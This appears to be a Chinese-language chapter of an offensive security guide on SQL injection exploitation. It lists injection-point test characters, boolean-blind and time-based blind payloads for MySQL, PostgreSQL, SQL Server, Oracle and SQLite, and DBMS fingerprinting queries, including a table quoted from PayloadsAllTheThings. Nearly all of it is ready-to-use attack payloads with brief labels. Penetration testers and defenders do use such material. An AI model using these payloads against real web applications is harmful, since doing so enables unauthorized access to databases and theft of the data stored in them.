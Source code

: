 #  漏洞利用

## 3.1 WEB漏洞进阶

### SQL注入漏洞

#### 1.注入点检测

（1）报错信息

特殊字符：

```bash
'
%27
"
%22
#
%23
;
%3B
)
||
*
--
/* */
&apos;
```

SQL语句：

```bash
'SELECT  //不成对的引号
1' OR '1' = '2  //逻辑错误
'1' = 1 --  //类型错误
'1' AND ASCII('a') = '97 --  //函数错误
'1' OR ('x'='x'  //操作符错误
```
(2)Boolean盲注

盲注检测：

|描述|查询语句|
|----|----|
|逻辑运算|page.php?id=1 or 1=1 -- 返回为true<br>page.php?id=1' or 1=1 -- 返回为true<br>page.php?id=1" or 1=1 -- 返回为true<br>page.php?id=1 and 1=2 -- 返回为false|
|数学运算|page.php?id=1/1 -- 返回为true<br>page.php?id=1/0 -- 返回为false<br>page.php?id=1/abs(1) -- 返回为true<br>page.php?id=1/abf(1) -- 返回为false|

逻辑运算字典：

[sql_logic](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/sqli-logic.txt)

(3)时间盲注

MySQL：

```sql
1' + sleep(5)
1' and sleep(5)
1' && sleep(5)
1' | sleep(5)
```

PostgreSQL:

```sql
1' and pg_sleep(5)
1' || pg_sleep(5)
```

SQL Server:

```sql
1' WAITFOR DELAY '0:0:5'
1' AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (SELECT SLEEP(5)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=CHAR(109,97,115,116,101,114)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
```

Oracle:

```sql
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',5)
1' AND DBMS_LOCK.SLEEP(5)
```

SQLite:

```sql
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

#### 2.DBMS识别

MySQL识别：
|描述|查询语句|
|----|----|
|睡眠|id=1'-SLEEP(1)=0 LIMIT 1 --|
|BENCHMARK|id=1'-BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds'))=0 LIMIT 1 --|
|字符串拼接|id=' 'mysql' –<br>'my' 'sql'<br>CONCAT('my','sql')|
|函数|connection_id() --<br>row_count() --<br>POW(1,1) --|
|错误信息|id='|
|默认变量|@@version_compile_os<br>@@version<br>@@basedir<br>@@datadir|
|比较函数|conv('a',16,2)=conv('a',16,2)<br>connection_id()=connection_id()<br>crc32('MySQL')=crc32('MySQL')|

Oracle识别：
|描述|查询语句|
|----|----|
|字符串拼接|id='\|\|'oracle' --|
|函数|BITAND(1,1) –|
|默认表|id='UNION SELECT 1 FROM v$version --|
|错误信息|id='|
|睡眠|dbms_pipe.receive_message(('a'),10)|
|默认变量|SELECT banner FROM v$version<br>SELECT version FROM v$instance|
|比较函数|ROWNUM=ROWNUM<br>RAWTOHEX('AB')=RAWTOHEX('AB')|

SQL Server识别：
|描述|查询语句|
|----|----|
|睡眠|id=';WAITFOR DELAY '00:00:10'; --|
|字符串拼接|id='mssql'+'mssql' --|
|函数|@@rowcount --<br>SQUARE(1) --<br>@@pack_received --|
|默认变量|id=sql'; SELECT @@SERVERNAME --|
|错误信息|id='<br>id=@@SERVERNAME<br>id=0/@@SERVERNAME|
|比较函数|BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)<br>@@CONNECTIONS>0<br>@@CONNECTIONS=@@CONNECTIONS|

PostgreSQL识别：
|描述|查询语句|
|----|----|
|睡眠|SELECT pg_sleep(10)|
|字符串拼接|'foo'\|\|'bar'|
|默认变量|SELECT version()|
|错误信息|1 = (select case when (条件语句) then 1/(select 0) else null end)|
|比较函数|pg_client_encoding()=pg_client_encoding()<br>get_current_ts_config()=get_current_ts_config()<br>quote_literal(42.5)=quote_literal(42.5)<br>current_database()=current_database()|

这里放置一个来自[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)的表：
```sql
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
